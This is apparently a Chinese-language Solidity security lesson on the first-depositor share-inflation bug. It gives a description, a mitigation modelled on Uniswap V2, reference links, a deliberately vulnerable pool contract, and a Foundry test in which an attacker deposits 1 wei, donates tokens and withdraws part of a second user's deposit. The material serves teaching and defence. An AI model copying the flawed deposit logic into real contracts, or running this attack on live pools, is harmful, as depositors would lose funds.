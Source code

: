 # 首次存款错误

**名称：** 首次存款错误

**描述：** 第一个矿池存款人可能会抢先交易，并被盗取部分存款。在这种情况下，我们可以控制变量“_supplied”。 通过存入少量贷款代币来获得矿池代币，我们可以抢先其他储户的交易，并通过大量“捐赠”抬高矿池代币的价格。 因此，攻击者可以提取比他们最初拥有的更多的贷款代币。

出现这个计算问题是因为，在 Solidity 中，如果用户的池代币值小于 1，它实际上会向下舍入到 0。

**解决办法：**

考虑在第一次存款期间铸造最少量的矿池代币并将其发送到零地址，这会增加攻击成本。 Uniswap V2 通过将前 1000 个 LP 代币发送到零地址解决了这个问题。 在这种情况下也可以做同样的事情，即当totalSupply() == 0时，将第一个最小流动性LP代币发送到零地址以实现份额稀释。

**参考：**

https://defihacklabs.substack.com/p/solidity-security-lesson-2-first

https://github.com/sherlock-audit/2023-02-surge-judging/issues/1

https://github.com/transmissions11/solmate/issues/178

**合约样例:**

```jsx
contract MyToken is ERC20, Ownable {
    constructor() ERC20("MyToken", "MTK") {
        _mint(msg.sender, 10000 * 10 ** decimals());
    }

    function mint(address to, uint256 amount) public onlyOwner {
        _mint(to, amount);
    }
}

contract SimplePool {
    IERC20 public loanToken;
    uint public totalShares;

    mapping(address => uint) public balanceOf;

    constructor(address _loanToken) {
        loanToken = IERC20(_loanToken);
    }

    function deposit(uint amount) external {
        require(amount > 0, "Amount must be greater than zero");

        uint _shares;
        if (totalShares == 0) {
            _shares = amount;
        } else {
            _shares = tokenToShares(
                amount,
                loanToken.balanceOf(address(this)),
                totalShares,
                false
            );
        }

        require(
            loanToken.transferFrom(msg.sender, address(this), amount),
            "TransferFrom failed"
        );
        balanceOf[msg.sender] += _shares;
        totalShares += _shares;
    }

    function tokenToShares(
        uint _tokenAmount,
        uint _supplied,
        uint _sharesTotalSupply,
        bool roundUpCheck
    ) internal pure returns (uint) {
        if (_supplied == 0) return _tokenAmount;
        uint shares = (_tokenAmount * _sharesTotalSupply) / _supplied;
        if (
            roundUpCheck &&
            shares * _supplied < _tokenAmount * _sharesTotalSupply
        ) shares++;
        return shares;
    }

    function withdraw(uint shares) external {
        require(shares > 0, "Shares must be greater than zero");
        require(balanceOf[msg.sender] >= shares, "Insufficient balance");

        uint tokenAmount = (shares * loanToken.balanceOf(address(this))) /
            totalShares;

        balanceOf[msg.sender] -= shares;
        totalShares -= shares;

        require(loanToken.transfer(msg.sender, tokenAmount), "Transfer failed");
    }
}
```

***\*测试方法:\****

仿真测试 --contracts src/test/**first-deposit.sol**-vvvv

```jsx
// Function to test the first deposit process
    function testFirstDeposit() public {
        // Alice's address is set as the first address in the virtual machine
        address alice = vm.addr(1);
        
        // Bob's address is set as the second address in the virtual machine
        address bob = vm.addr(2);
        
        // Transfers 1 Ether plus 1 wei to Alice's account from the MyTokenContract
        MyTokenContract.transfer(alice, 1 ether + 1);
        
        // Transfers 2 Ether to Bob's account from the MyTokenContract
        MyTokenContract.transfer(bob, 2 ether);

        // Initiates a "prank" on Alice's account in the virtual machine
        vm.startPrank(alice);
        
        // Alice approves the SimplePoolContract to spend 1 wei of her tokens
        MyTokenContract.approve(address(SimplePoolContract), 1);
        
        // Alice deposits 1 wei into the SimplePoolContract, receiving 1 pool token in return
        SimplePoolContract.deposit(1);

        // Alice transfers 1 Ether to the SimplePoolContract, which inflates the price of the pool tokens
        MyTokenContract.transfer(address(SimplePoolContract), 1 ether);

        // Stops the prank on Alice's account
        vm.stopPrank();
        
        // Initiates a prank on Bob's account
        vm.startPrank(bob);
        
        // Bob approves the SimplePoolContract to spend 2 Ether of his tokens
        MyTokenContract.approve(address(SimplePoolContract), 2 ether);
        
        // Bob deposits 2 Ether into the SimplePoolContract, but due to the inflated price, he only receives 1 pool token
        SimplePoolContract.deposit(2 ether);
        
        // Stops the prank on Bob's account
        vm.stopPrank();
        
        // Initiates a prank on Alice's account
        vm.startPrank(alice);

        // Gets the balance of the SimplePoolContract in MyTokenContract
        MyTokenContract.balanceOf(address(SimplePoolContract));

        // Alice withdraws 1 pool token and gets 1.5 Ether, thus making a profit
        SimplePoolContract.withdraw(1);
        
        // Asserts that Alice's balance should now be 1.5 Ether. If it's not, it throws an error
        assertEq(MyTokenContract.balanceOf(alice), 1.5 ether);
        
        // Logs Alice's balance in the console
        console.log("Alice balance", MyTokenContract.balanceOf(alice));
    }
```

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fbf5edaeb-708c-433d-b87f-9fd9a16b7633%2FUntitled.png?table=block&id=9f907b3b-45de-448e-ae5b-a3c771d9743f&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)